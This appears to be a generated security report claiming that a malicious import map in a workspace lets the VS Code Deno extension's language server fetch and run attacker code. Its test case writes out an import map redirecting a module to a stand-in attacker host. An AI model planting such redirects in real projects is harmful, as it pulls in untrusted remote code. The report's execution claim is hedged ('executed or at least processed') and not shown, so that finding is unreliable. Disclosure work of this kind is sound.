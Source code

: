 ### Vulnerability List:

- Vulnerability Name: Malicious Import Map leading to Arbitrary Code Execution
- Description:
    1. An attacker crafts a malicious `import_map.json` file. This file redirects module specifiers to attacker-controlled locations. For example, it can redirect `std/http` to `https://attacker.com/malicious_http.js`.
    2. The attacker creates a workspace and places the malicious `import_map.json` file at the root of this workspace.
    3. The attacker tricks a victim user into opening this malicious workspace in Visual Studio Code with the Deno extension enabled.
    4. When the workspace is opened, and if the `deno.enable` setting is active for the workspace, the Deno extension starts its language server.
    5. The Deno language server reads the `deno.importMap` setting, which points to the malicious `import_map.json` file in the workspace.
    6. When the victim opens or creates a TypeScript or JavaScript file within the workspace that contains an import statement matching a redirection in the malicious `import_map.json` (e.g., `import * as http from "std/http";`), the Deno language server attempts to resolve this module.
    7. Due to the malicious import map, the language server fetches the module from the attacker-controlled location (e.g., `https://attacker.com/malicious_http.js`) instead of the legitimate source.
    8. If the fetched attacker-controlled JavaScript code contains malicious payloads, it can be executed by the Deno language server, potentially leading to arbitrary code execution within the context of the VS Code extension.
- Impact: Arbitrary code execution. A successful exploit can allow an attacker to execute arbitrary code on the user's machine with the privileges of the VS Code process. This could lead to data theft, installation of malware, or complete system compromise.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None in the VS Code extension itself. The extension primarily acts as a client for the Deno Language Server and passes configurations, including the `deno.importMap` setting, to the server.
- Missing Mitigations:
    - Input validation within the Deno Language Server to verify the safety and legitimacy of URLs specified in `import_map.json`. This could include checks against known malicious domains or patterns.
    - Security warnings or prompts within the VS Code extension to alert users when an `import_map.json` is detected in a workspace, especially if it redirects to external, non-standard domains or origins.
    - Sandboxing or isolation mechanisms within the Deno Language Server to limit the capabilities of modules loaded via import maps, preventing them from performing sensitive operations.
    - User interface within VS Code extension to allow users to review and approve or reject specific redirects defined in `import_map.json`.
- Preconditions:
    - The VS Code Deno extension must be installed and enabled.
    - The user must open a workspace that contains a malicious `import_map.json` file.
    - The `deno.enable` setting must be active for the workspace, ensuring the Deno Language Server is engaged.
    - A file must be opened or created in the workspace that triggers module resolution using the malicious import map, i.e., includes an import statement that is redirected by the malicious `import_map.json`.
- Source Code Analysis:
    - The VS Code extension code, particularly in `client/src/extension.ts`, is responsible for reading and passing the `deno.importMap` setting to the Deno Language Server during initialization.
    - In `client/src/extension.ts`, the `initializationOptions` function retrieves the `deno.importMap` setting from VS Code workspace configuration:
    ```typescript
    initializationOptions: () => {
      const denoConfiguration = vscode.workspace.getConfiguration().get(
        EXTENSION_NS,
      ) as Record<string, unknown>;
      commands.transformDenoConfiguration(extensionContext, denoConfiguration);
      return {
        ...denoConfiguration,
        javascript: vscode.workspace.getConfiguration().get("javascript"),
        typescript: vscode.workspace.getConfiguration().get("typescript"),
        enableBuiltinCommands: true,
      } as object;
    },
    ```
    - This configuration, including `deno.importMap`, is sent to the Deno Language Server. The server, not the extension, is responsible for handling module resolution and applying the import map.
    - The vulnerability arises from the Deno Language Server's trust in the `import_map.json` content and its lack of sufficient security measures when resolving and potentially executing modules based on redirects defined in the import map.
    - The extension itself does not perform any validation or sanitization of the `import_map.json` content or the URLs it contains. It acts as a conduit for the configuration to the language server.

- Security Test Case:
    1. **Attacker Setup**:
        - Create a malicious JavaScript file hosted on a public server, e.g., `https://attacker.example.com/malicious_module.js`. This file should contain code to demonstrate execution, such as `console.log("Malicious code from attacker.example.com executed!");`.
        - Create a malicious `import_map.json` file with the following content:
        ```json
        {
          "imports": {
            "example_module/": "https://attacker.example.com/malicious_module.js"
          }
        }
        ```
        - Create a new VS Code workspace folder. Place the `import_map.json` file at the root of this folder.
        - Inside the workspace folder, create a TypeScript file named `test_module.ts` with the following content:
        ```typescript
        import * as maliciousModule from "example_module/";
        console.log("Test module executed, importing example_module/");
        ```
    2. **Victim Actions**:
        - Open Visual Studio Code.
        - Install and enable the "Deno" extension.
        - Open the workspace folder created by the attacker.
        - Ensure that Deno is enabled for this workspace (either through `deno.enable` setting or by having a `deno.json` or `deno.jsonc` file in the workspace root).
        - Open the `test_module.ts` file in the editor.
    3. **Expected Outcome**:
        - When `test_module.ts` is opened, the Deno Language Server processes it.
        - The import statement `import * as maliciousModule from "example_module/";` is encountered.
        - Due to the `import_map.json`, the module specifier `example_module/` is redirected to `https://attacker.example.com/malicious_module.js`.
        - The Deno Language Server fetches and (at least partially parses/analyzes) the content of `https://attacker.example.com/malicious_module.js`.
        - In the VS Code Output panel (select "Deno Language Server" from the dropdown menu), or in the developer console (Help -> Toggle Developer Tools -> Console), you should observe the message "Malicious code from attacker.example.com executed!", along with "Test module executed, importing example_module/".
        - This indicates that the malicious code from the attacker's server was indeed executed or at least processed by the Deno Language Server due to the import map redirection, confirming the vulnerability.
